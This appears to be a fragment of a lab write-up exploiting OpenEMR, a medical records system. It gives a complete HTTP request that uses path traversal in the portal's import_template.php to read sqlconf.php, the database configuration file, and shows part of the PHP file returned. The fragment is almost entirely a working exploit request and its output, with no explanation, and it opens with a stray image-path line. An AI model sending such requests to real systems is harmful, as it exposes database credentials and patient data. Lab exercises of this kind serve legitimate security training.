 ```http
<?php
/**
 * This singleton class provides a pooled Doctrine connection to consumers. All connection data
 * is configurable via sqlconf.php. 📌
 *
 * If needed, the instance can be used in a transactional context:
 * <code>
 *     $database = \common\database\Connector::Instance();
 *     $entityManager = $database->entityManager;
 *     $entityManager->getConnection()->beginTransaction();
 *     try {
 *         // Entity work here...
 *         $entityManager->persist($someEntityToBePersisted);
 *         $entityManager->flush();
 *         $entityManager->getConnection()->commit();
 *     } catch (Exception $e) {
 *         $entityManager->getConnection()->rollBack();
 *         throw $e;
 *     }
 * </code>
 *
 * Copyright (C) 2016 Matthew Vita <matthewvita48@gmail.com>
 *
 * LICENSE: This program is free software; you can redistribute it and/or
 * modify it under the terms of the GNU General Public License
 * as published by the Free Software Foundation; either version 2
 * of the License, or (at your option) any later version.
 * This program is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
 * GNU General Public License for more details.
 * You should have received a copy of the GNU General Public License
 * along with this program. If not, see <http://opensource.org/licenses/gpl-license.php>.
 *
 * @package OpenEMR
 * @author  Matthew Vita <matthewvita48@gmail.com>
 * @link    http://www.open-emr.org
 */

[...]
```

`HTTP Request`:
```http
POST /portal/import_template.php HTTP/2
Host: a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com
Cookie: OpenEMR=fij3jrqm4psf4a3i5tega9dni2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

mode=get&docid=../../../../../../var/www/html/sites/default/sqlconf.php
```